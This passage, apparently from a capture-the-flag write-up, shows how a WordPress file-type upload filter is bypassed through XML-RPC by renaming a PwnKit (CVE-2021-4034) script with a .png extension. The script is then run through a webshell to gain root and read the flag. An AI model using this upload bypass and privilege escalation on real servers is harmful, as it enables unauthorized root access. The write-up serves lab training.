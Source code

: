 
On sending this, there’s an error:

    
    
    >>> client.call(media.UploadFile(data))
    Traceback (most recent call last):
    ...[snip]...
    xmlrpc.client.Fault: <Fault 500: 'Could not write file pkwner.sh (Sorry, you are not allowed to upload this file type.).'>
    

The file type seems like a `type` issue, so I’ll change it to something I
probably can upload, `image/png`, but I get the same error. I’ll try changing
the file extension to `.png`, and it works:

    
    
    >>> data = { 'name': 'pkwner.png', 'bits': script, 'type': 'text/plain' }
    >>> client.call(media.UploadFile(data))
    {'attachment_id': '48', 'date_created_gmt': <DateTime '20220201T23:14:24' at 0x7f25f8bb9a60>, 'parent': 0, 'link': '/wp-content/uploads/2022/02/pkwner.png', 'title': 'pkwner.png', 'caption': '', 'description': '', 'metadata': False, 'type': 'text/plain', 'thumbnail': '/wp-content/uploads/2022/02/pkwner.png', 'id': '48', 'file': 'pkwner.png', 'url': '/wp-content/uploads/2022/02/pkwner.png'}
    

It’s even nice enough to give me the full path!

#### POC Success

I can just call `bash` on that file (even with the `.png` extension, though I
could also move it with the webshell), and it works:

    
    
    oxdf@hacky$ ./webshell.sh 'bash /var/www/html/wp-content/uploads/2022/02/pkwner.png'
    ██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
    ██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
    ██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
    ██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
    ██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
    ╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
    CVE-2021-4034 PoC by Kim Schulz
    [+] Setting up environment&#8230;
    [+] Build offensive gconv shared module&#8230;
    [+] Build mini executor&#8230;
    uid=0(root) gid=0(root) groups=0(root),33(www-data)
    hello[+] Nice Job
    

Because it prints out `uid=0`, that shows it ran as root.

#### Get Flag

I can remove the image from the server (with the webshell) change the last
line in my local copy to `cat /root/root.txt`, upload it again, and run it to
get the flag:

    
    
    oxdf@hacky$ ./webshell.sh 'bash /var/www/html/wp-content/uploads/2022/02/pkwner.png'
    ██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
    ██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
    ██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
    ██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
    ██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
    ╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
    CVE-2021-4034 PoC by Kim Schulz
    [+] Setting up environment&#8230;
    [+] Build offensive gconv shared module&#8230;
    [+] Build mini executor&#8230;
    8620df0d9701b220a6fcbc207fca5cc1
    hello[+] Nice Job
    